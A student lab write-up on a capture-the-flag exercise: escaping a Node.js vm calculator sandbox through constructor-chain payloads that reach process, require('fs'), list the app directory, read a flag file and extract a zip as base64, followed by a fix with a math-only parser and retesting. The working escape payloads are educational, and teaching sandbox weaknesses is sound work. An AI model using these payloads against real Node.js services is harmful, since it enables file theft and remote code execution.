










# Lab 4 - JavaScript Sandboxing
Group 80: Yushu Hu, Ruijin Wang

## Part 1: Finding the flag

### 1. Type of vulnerability exploited

The vulnerability exploited is a **JavaScript sandbox escape**, caused by insufficient isolation between untrusted user input and sensitive backend capabilities. The sandbox used in the calculator application failed to properly restrict access to dangerous JavaScript language features such as the Function constructor, which allowed arbitrary code execution.  

By crafting a payload that accessed the global scope, the user might be able to bypass the sandbox and access server-side JavaScript APIs like process, require, and fs.


### 2. Steps of getting the flag

1. Try out the calculator to confirm it executes JS, the inputs are being evaluated.

2. Try `require`, `process` → `Invalid input!`, the direct access is blocked.

3. `Function("return 1")()` → `1` which shows that we are able to create and execute a new function. It can be a path to escape the sandbox using `Function`.

4. Try indirect access via Function constructor `Function("return require")()` → `Failed`.

5. Try `this` → `[object Object]`.   
  
6. `this.constructor` → `function Object() { [native code] }`    
  
Next, try `.constructor.constructor` to reach Function.

7. Test global access via constructor chains.  
`this.constructor.constructor("return this")()` → `[object global]`   
Now we confirmed global is accessible.  


8. `this.constructor.constructor("return require")()` → Failed.  Indicate require is not available globally.

9. `this.constructor.constructor("return process")()` → `[object process]` 
shows `process` is available in global scope.  
Now we escaped the sandbox and accessed the built-in global.


10. Since `process` worked, we can use `process.mainModule.require` to bypass the filter and access Node’s original `require()` when it's not exposed directly.   
So try 
    ```js
    this.constructor.constructor("return process.mainModule.require")()
    ``` 
    and successfully accessed `require`.  
  
Then use 
    ```js
    this.constructor.constructor("return process.mainModule.require('fs')")()
    ``` 
    to load the `fs` module and get file system access.  
    

11. Use `this.constructor.constructor("return process.cwd()")()` to check the current working directory.  
It returned `/usr/src/app`.  


12. List the directory by 
    ```js
    this.constructor.constructor("return process.mainModule.require('fs').readdirSync('/usr/src/app').toString()")() 
    ```
    and get results:
    ```
    Dockerfile,calc.js,docker.zip,flag.txt,index.html,node_modules,package-lock.json,package.json,server.js
    ```
    where we found `flag.txt`, also `docker.zip`.   
    

13. Read the flag by:
    ```js
    this.constructor.constructor("return process.mainModule.require('fs').readFileSync('/usr/src/app/flag.txt','utf8')")()
    ```
    It gives:
    ```
    FLAG-EsCaPeD2025-LOOK4DOCKERZIP!
    ```
    

### 3. Security implications of acquiring the flag

The ability to acquire the flag demonstrates that untrusted user input can escape the JavaScript sandbox and execute arbitrary code on the server. In a real-world scenario, this vulnerability could be used to compromise the entire server. This directly violates the security boundary that the sandbox is supposed to enforce.

The attacker, by exploiting this vulnerability, can:

- Access and exfiltrate sensitive data (such as the flag, secrets, or private keys),

- Load any Node.js modules via `require()`,

- Perform arbitrary file system operations (read/write/delete),

- Modify server-side code,

- Chain further attacks (e.g., spawning shells, sending network requests, or installing malware).


## Part 2: Fixing the system

### 1. Download `docker.zip` and run the app locally

After having remote code execution, we can read the contents of `docker.zip` as a base64 string.

```js
this.constructor.constructor("return process.mainModule.require('fs').readFileSync('/usr/src/app/docker.zip').toString('base64')")()
```

It will output a very long base64 string that represents the zip file encoded.

Then copy the entire base64 output to a text file, decode it locally with a command:

```bash
base64 -d docker_base64.txt > docker.zip
```

Then we can extract `docker.zip`, build the Docker image and run the app container locally.

### 2. Identified Vulnerability & Fix Implemented

The original application used Node.js’s `vm` module to sandbox and evaluate arbitrary JavaScript expressions entered by users:

```js
const vm = require("vm");
...
res = evalInJail(env, options, line);
```

Despite some blacklisting, users could bypass it using constructor chains, e.g. `this.constructor.constructor("return process")()`

This exposed access to sensitive objects like `process`, `require`, and `fs`, allowing arbitrary file system access and remote code execution.

To fix this, we can replace the vulnerable JavaScript execution logic with a **math-only expression parser** (`expr-eval`), eliminating the need to execute arbitrary JS code.

 **Updated Code Snippet (`calc.js`):**

```js
const { Parser } = require("expr-eval");

function main(line) {
    let result;
    try {
        const parser = new Parser();
        result = parser.evaluate(line);  // Safe expression evaluation
    } catch (e) {
        result = "invalid input!";
    }
    return result;
}

module.exports = main;
```

This new implementation does not rely on `eval`, `Function`, or `vm` and only allows safe math operations. Thus it can not be bypassed using prototype or constructor chains.

### 3. Security Testing

Tested known exploits from Part 1, including:
```js
eval("2+2")
Function("return 5")()
this
this.constructor
this.constructor.constructor("return process")()
globalThis.constructor.constructor("return process")()
process.mainModule.require('fs').readFileSync(...)
...
```
All of them returned `invalid input!`.   

 

### 4. Alternate Mitigations and Pitfalls

- **Use `vm2` sandbox**

    `vm2`is a safer drop-in replacement for Node’s `vm`, it allows restricting access to Node built-ins, globals, timers, etc. `vm2` is a good choice when developers need to allow user-defined logic while maintaining a higher level of security.

    **Pitfalls:** If not done carefully, vulnerabilities might still be exploitable through overlooked objects such as `Buffer` or `Function`.  
  

- **Use a whitelist instead of a blacklist**

    Rather than blocking dangerous things (`blacklist`), we can allow *only* safe, known-good operations like numbers, math operators, parentheses.  
    It completely avoids the need to parse or execute arbitrary JS and thus is much safer than a blacklist. 

    **Pitfalls:** Limited functionality. It can’t allow user-defined functions or complex logic. And might reject valid expressions that are technically safe if they’re not explicitly allowed.